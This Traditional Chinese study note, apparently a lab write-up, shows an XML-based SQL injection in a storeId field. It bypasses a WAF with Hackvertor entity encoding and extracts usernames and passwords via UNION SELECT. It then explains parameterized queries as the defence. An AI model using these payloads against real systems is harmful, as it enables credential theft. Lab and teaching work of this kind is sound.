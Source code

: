 1. 這是一個查詢庫存請求的 body：
    ```xml 
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
    ```
2. 嘗試在 storeId 注入 SQL，並發現被 WAF 擋住了
    ```xml
    <storeId>1 UNION SELECT NULL</storeId>
    ```
3. 透過 Hackvertor 套件編碼成功繞過（Extensions > Hackvertor > Encode > dec_entities/hex_entities）
    ```xml
    <storeId><@dec_entities>1 UNION SELECT NULL</@dec_entities></storeId>
    ```
4. 取得帳號密碼並提交完成此 Lab
    ```xml
    <storeId><@dec_entities>1 UNION SELECT username || '~' || password FROM users</@dec_entities></storeId>
    ```
:::

## 如何防範 SQL 注入

您可以透過使用參數化查詢語句而非在查詢語句中使用字串串接來防範大多數的 SQL 注入實例。這些參數化查詢語句也稱為「預備語句」。

以下程式碼容易受到 SQL 注入攻擊，因為使用者輸入直接串接到查詢語句中：

```SQL
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

您可以重新編寫此程式碼，以防止使用者輸入干擾查詢語句結構：

```SQL
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

您可以在不可信輸入作為查詢語句中的資料出現的任何情況下使用參數化查詢語句，包括 `WHERE` 子句以及 `INSERT` 或 `UPDATE` 語句中的值。它們無法用於處理查詢語句其他部分的不可信輸入，例如資料表或欄位名稱，或 `ORDER BY` 子句。將不可信資料放入查詢語句這些部分的應用程式功能需要採用不同的方法，例如：

* 將允許的輸入值列入白名單。
* 使用不同的邏輯來實現所需的行為。

要使參數化查詢語句有效防範 SQL 注入，查詢語句中使用的字串必須始終是硬編碼的常數。它絕不能包含來自任何來源的變數資料。不要試圖逐案判斷某項資料是否可信，並在被認為安全的情況下繼續在查詢語句中使用字串串接。很容易對資料的可能來源產生誤判，或者其他程式碼的變更可能會污染可信資料。

::: info Read more

* [Find SQL injection vulnerabilities using Burp Suite's web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner)
:::